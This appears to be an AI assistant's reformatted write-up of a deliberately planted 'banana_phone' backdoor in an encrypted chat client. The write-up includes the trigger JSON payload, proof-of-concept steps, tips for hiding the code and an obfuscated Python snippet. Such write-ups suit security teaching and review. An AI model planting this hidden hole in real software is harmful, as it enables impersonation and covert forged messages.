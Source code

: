 Certainly! I'll tidy up the document and make it more presentable. Here's the improved version:

````markdown
# Backdoor 3: Client Spoof

## Description

This backdoor allows any malicious client to impersonate any other client known to the neighborhood. It enables them to send messages as another client, without alerting the impersonated client of this activity.

---

## Technical Details

When a client receives a private message, it attempts to decrypt and store it to be sent to the frontend. The backdoor expands on this functionality by checking for a JSON data structure within the message. If one is found and includes `type: 'banana_phone'`, it parses the rest of the message:

```json
{
    "type": "banana_phone",
    "to": [list: string: fingerprint],
    "message": string: real message
}
```
````

- `to`: Contains a list of fingerprints that the 'real' message should be sent to.
- `message`: Contains the real message to be sent.
- The original recipient becomes the new sender.

The function then calls the existing `send_private_chat` message with these new details, as if it came from the client.

Crucially, the recipient never logs or saves the sent message, and explicitly changes the original received message to a random, innocuous message to avoid suspicion.

---

## Objectives

This backdoor violates several key security principles:

1. Authentication: Allows impersonation of other clients.
2. Integrity: Modifies message content without authorization.
3. Non-repudiation: Makes it impossible to prove who really sent a message.
4. Confidentiality: Allows unauthorized access to private communications.

---

## Exploitation Method (Proof of Concept)

1. Attacker identifies the fingerprint of the client they want to impersonate (Client 3) and the intended recipient (Client 4).

<figure align="center">
  <img src="appendix/Image%203.1.png" alt="Attacker selecting client to impersonate" width="300">
  <figcaption><em>Figure 3.1: Attacker selects client 3 to send to, noting down the fingerprint of client 4</em></figcaption>
</figure>

2. Attacker crafts a message to Client 3 with the following structure:
   ```json
   {
     "type": "banana_phone",
     "to": ["z+jFUevZW966ayOz90LUlPDbup5tUASkiAGsrBqmVgs="],
     "message": "This is client 1 appearing as client 3"
   }
   ```
3. Attacker sends this message to Client 3 using the normal private chat protocol.
4. Client 3's system processes this message, replacing the content with a random innocuous message in its own logs.

<figure align="center">
  <img src="appendix/Image%203.2.png" alt="Victim's client interface showing a harmless message" width="600">
  <figcaption><em>Figure 3.2: The victim's client interface showing a randomly selected harmless message, masking the attacker's covert message manipulation</em></figcaption>
</figure>

5. Client 3's system then sends the "real" message to Client 4, appearing to come from Client 3.
6. Client 4 receives a message that appears to be from Client 3, but was actually initiated by the attacker (Client 1).

<figure align="center">
  <img src="appendix/Image%203.3.png" alt="Real message sent to client 4" width="300">
  <figcaption><em>Figure 3.3: The real message is sent to client 4, appearing to be sent by client 3</em></figcaption>
</figure>

---

## Detection Challenges

- Code obfuscation using odd variable names (e.g., 'banana', 'spaghetti', 'pizza', 'carrot') makes the code harder to understand at a glance.
- The backdoor is hidden within real functions used by the protocol, making it blend in with legitimate code.
- The use of a special message type ('banana_phone') is not immediately suspicious and could be mistaken for a feature or Easter egg.
- The original message is replaced with random innocuous content, leaving no trace of the malicious activity in the sender's logs.
- The backdoor leverages existing message sending functions, making its activities appear as normal traffic.

---

## Code Snippet

```python
async def decrypt_and_store_message(self, data):
    # ... (code for decrypting and initial processing of the message)

    for idx, symm_key_b64 in enumerate(symm_keys_b64):
        try:
            # ... (code for decrypting the message with the current key)

            if my_fingerprint in participants:
                # ... (prepare the message entry)

                try:
                    banana = json.loads(message_text)
                    if banana.get('type') == 'banana_phone':
                        # Generate and store a random innocuous message
                        message_entry['message'] = random.choice(random_messages)
                        self.store_and_log_message(message_entry)

                        # Extract real recipients and message
                        spaghetti = banana.get('to', [])
                        pizza = banana.get('message', '')

                        # Process the recipient list
                        carrot = self.process_recipient_list(spaghetti)

                        # Remove sender and current client from recipients
                        carrot = [
                            fp for fp in carrot
                            if fp != sender_fingerprint and fp != my_fingerprint
                        ]

                        # Send the spoofed message
                        if carrot:
                            await self.send_chat_message(carrot, pizza, true_message=False)
                        else:
                            logger.error("No valid recipients for banana phone message")
                    else:
                        # Normal message handling
                        self.store_and_log_message(message_entry)
                except json.JSONDecodeError:
                    # Handle non-JSON messages
                    self.store_and_log_message(message_entry)
        except Exception as e:
            logger.error(f"Failed to decrypt message with key {idx}: {e}")

    # ... (handle case where message is not intended for this client)
```

This version maintains the content while improving readability and presentation. The images are now consistently formatted using the `<figure>` element, and the overall structure is more coherent.
